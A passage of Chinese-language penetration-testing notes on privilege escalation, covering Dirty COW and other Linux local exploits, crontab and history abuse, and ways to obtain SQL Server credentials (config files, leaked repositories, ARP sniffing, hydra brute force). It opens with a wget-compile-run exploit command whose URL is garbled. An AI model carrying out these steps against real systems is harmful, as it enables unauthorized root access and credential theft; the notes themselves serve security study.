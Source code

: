 ```bash
wget http:exp/:exp.c

gcc -o exp exp.c
chmod +x exp
./exp
```

* linux 反弹shell

  


#### 4.2 提权实践

* 脏牛提权 cve 2016-5195

看这里

https://blog.csdn.net/adminuil/article/details/101124596

脏牛poc有很多，多尝试一下。

https://blog.csdn.net/deeplearnings/article/details/7736769

* cve2016-1531

`dpkg -l` 列举所有当前系统装的软件

* 历史记录提权

查看相关操作信息泄露

* 启动项提权

`/etc/crontab`

## 五、数据库提权

#### 5.1 SQLserver 数据库漏洞利用与提权

**5.1.1 SQL server 提权基础**

SQL server 微软数据库管理软件。windows、linux、docker都可运行。

* webshell或源码获取

  一般在网站配置文件中有明文地址账号密码，常见： conn.aspx, config.aspx, config.php, web.config等。

* 源代码泄露

  github、.git、.svn、.bak、zip

* 嗅探

  arp欺骗

* 口令爆破

  暴力破解,hydra,burp 

**5.1.2 SQL server 提权实战**

